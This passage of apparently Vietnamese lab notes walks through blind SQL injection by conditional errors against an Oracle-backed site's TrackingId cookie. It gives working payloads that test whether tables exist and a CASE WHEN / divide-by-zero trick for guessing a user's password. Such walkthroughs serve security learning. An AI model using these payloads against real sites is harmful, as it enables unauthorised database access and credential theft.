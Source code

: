   => Server lỗi khả năng cao sử dụng hệ QTCSDL Oracle

- Tận dụng lỗi server trả về để suy luận dữ liệu:

Chèn truy vấn một bảng không tồn tại: `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` → lỗi.

=> Truy vấn gây lỗi khi bảng không tồn tại nhưng không lỗi khi bảng tồn tại ⇒ có thể **suy luận sự tồn tại của bảng**. Áp dụng truy vấn bảng `users`, ta có kết quả:

`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

![image-20250601100646239](./image/image-20250601100646239.png)

=> server ok => tồn tại bảng `users`

- Sử dụng `CASE WHEN` để kiểm tra điều kiện của truy vấn và response tương ứng của server, điều chỉnh truy vấn sao cho: ĐK là true => thông báo lỗi, từ đó lợi dụng để đoán password của user

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
